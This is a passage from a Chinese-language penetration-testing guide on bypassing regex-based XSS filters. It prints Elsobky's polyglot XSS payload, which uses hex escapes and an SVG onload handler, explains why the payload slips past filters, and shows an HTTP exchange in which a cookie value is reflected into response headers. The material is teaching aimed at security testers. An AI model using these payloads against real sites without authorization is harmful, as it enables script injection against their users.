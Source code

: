 图 2.30：正则表达式过滤器可视化

### 提示

在评估应用程序的基于正则表达式的输入过滤器时，Regex101 是一个很好的地方，可以同时测试多个有效载荷。Regex101 是一个免费的在线工具，网址是[`regex101.com`](https://regex101.com)。

许多时候，开发人员在不现实的时间压力下工作。当渗透测试报告指出特定的输入清理问题时，开发人员面临压力，需要提交一个快速编写、安全性不足、只修复部分问题的安全修复。实施一个可能会破坏应用程序的框架来处理输入过滤通常既耗时又昂贵，因此往往在安全性上采取捷径。

Elsobky 有效载荷的目标还包括通过引擎处理经过反斜杠转义的十六进制编码值。例如，JavaScript 和 Python 会将以`\x`为前缀的两个字母数字字符处理为一个字节。这可以绕过某些执行原始字符串比较检查的内联 XSS 过滤器：

```
jaVasCript:/*-/*'/*\'/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\**x3c**sVg/<sVg/oNloAd=alert()//>\**x3e**

```

可能有效载荷会被剥离掉大部分其他关键字，但当过滤器遇到`\x3c`和`\x3e`时，它会将其解释为无害的四个字符字符串。应用程序可能会解析该字符串，并不经意地返回转义的十六进制字符`<`和`>`的一个字节等效值。结果是一个`<svg>`HTML 元素，通过`onload`事件执行任意 JavaScript。

### 注意

**可伸缩矢量图形**（**SVG**）是网页上的一个元素，可以在屏幕上绘制复杂的图形，而无需使用二进制数据。SVG 在 XSS 攻击中使用，主要因为它提供了`onload`属性，当元素被浏览器渲染时，会执行任意的 JavaScript 代码。

### 注意

更多关于此特定多语言代码强大功能的示例，见 Elsobky 的 GitHub 页面：[`github.com/0xSobky`](https://github.com/0xSobky)。

一个强大的多语言代码负载能够在多种注入场景下执行一些代码。Elsobky 的负载也可以在反射到服务器 HTTP 响应时发挥作用：

```
jaVasCript:/*-/*'/*\'/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

URL 编码字符`%0d`和`%0a`表示换行和回车。这些字符在 HTML 和 JavaScript 解析器中大多被忽略，但它们在 HTTP 请求或响应头中具有重要意义。

如果目标应用未正确过滤用户输入，在某些情况下，它可能会将任意值作为 HTTP 响应的一部分返回。例如，在尝试设置“记住我”Cookie 时，应用程序未过滤负载，直接在 HTTP 响应头中反射该负载，从而在用户的浏览器中造成 XSS：

```
GET /save.php?remember=username HTTP/1.1
Host: www.cb2.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
[...]
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Server: nginx/1.8.1
Set-Cookie: remember_me=username
Connection: close
Username saved!
```
